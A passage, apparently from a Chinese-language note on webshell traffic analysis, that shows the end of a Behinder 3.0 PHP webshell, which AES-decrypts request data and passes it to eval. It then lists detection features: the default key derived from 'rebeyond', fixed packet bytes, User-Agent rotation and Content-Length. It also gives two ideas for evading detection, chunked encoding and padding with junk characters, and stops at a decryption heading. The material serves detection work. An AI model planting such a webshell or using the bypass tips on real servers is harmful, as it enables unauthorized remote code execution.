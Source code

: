 ```php
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

#### 流量特征

- 密钥特征：使用AES加密+Base64编码，取消了冰蝎2.0的动态获取密钥，使用固定的连接密钥，AES加密的密钥为连接密码MD5的前16位，默认连接密码是`rebeyond`（即`md5('rebeyond')[0:16]=e45e329feb5d925b`）。
- 请求包/响应包固定字节：请求包前21字节，响应包前42字节为固定值，一般与Webshell密码有关。
- 请求头User-Agent字段：内置了 10 种 User-Agent，每次连接 Shell 时会随机选择一个进行使用。
- 请求头Content-Type字段：
```
JSP：Application/octet-stream
```
- 请求头Content-Length字段：即使是冰蝎3.0最小的流量包，请求头的Content-Length都要大于5000。

![img](images/Webshell流量分析/202211091045328.png)

一些绕过的思路：

- 在Webshell前后加入无规则字符。
- 使用分块编码传输绕过，请求头 `Transfer-Encoding: chunked`。

#### 流量解密


